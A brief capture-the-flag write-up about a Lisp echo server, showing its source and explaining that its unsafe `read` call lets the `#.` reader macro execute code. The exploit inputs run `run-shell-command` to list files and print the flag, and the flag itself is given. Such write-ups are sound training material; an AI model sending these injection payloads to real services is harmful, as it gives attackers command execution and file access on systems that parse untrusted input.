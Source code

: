 # Baby thandbox

We get access to a server coded in Lisp

```lisp
(defun echo ()
  (princ "> ")
  (setq cmd (read))
    (case cmd
       ('help (princ "Available commands:")(print "help")(print "flag")(print "quit"))
       ('flag (princ "you wish"))
       ('quit (quit))
       (otherwise (prin1 cmd)))
    (terpri)
    (echo))
(handler-case
  (echo)
  (error (e) (prin1 e)(quit)))
(quit)
```

We can research that the `read` function in lisp is *very* vulnerable

https://stackoverflow.com/a/67119074/13273411

http://clhs.lisp.se/Body/02_dhf.htm

We can exploit the `#.` reader macro to get the flag

`#.(run-shell-command "ls")`

`#.(run-shell-command "cat flag_144de66289ad4b9ffa8578cb862c7db7.txt")`

`ecsc23{LISP_is_a_speech_defect_in_which_s_is_pronounced_like_th_in_thick}`
